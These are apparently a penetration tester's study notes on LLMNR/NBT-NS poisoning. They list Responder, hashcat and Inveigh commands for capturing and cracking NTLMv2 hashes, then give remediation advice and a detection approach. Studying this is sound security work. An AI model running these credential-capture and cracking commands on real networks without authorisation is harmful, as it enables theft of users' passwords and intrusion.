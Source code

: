 # From Linux

## responder

### get hashes...
```bash
sudo responder -I ens224 
```

### crack them
```bash
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt
```

# From Windows

## inveigh

```powershell
Import-Module .\Inveigh.ps1
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

# Remediation

Mitre ATT&CK lists this technique as ID: T1557.001, Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay.

There are a few ways to mitigate this attack. To ensure that these spoofing attacks are not possible, we can disable LLMNR and NBT-NS. As a word of caution, it is always worth slowly testing out a significant change like this to your environment carefully before rolling it out fully. As penetration testers, we can recommend these remediation steps, but should clearly communicate to our clients that they should test these changes heavily to ensure that disabling both protocols does not break anything in the network.

# Detection

It is not always possible to disable LLMNR and NetBIOS, and therefore we need ways to detect this type of attack behavior. One way is to use the attack against the attackers by injecting LLMNR and NBT-NS requests for non-existent hosts across different subnets and alerting if any of the responses receive answers which would be indicative of an attacker spoofing name resolution responses. This [blog post](https://www.praetorian.com/blog/a-simple-and-effective-way-to-detect-broadcast-name-resolution-poisoning-bnrp/) explains this method more in-depth.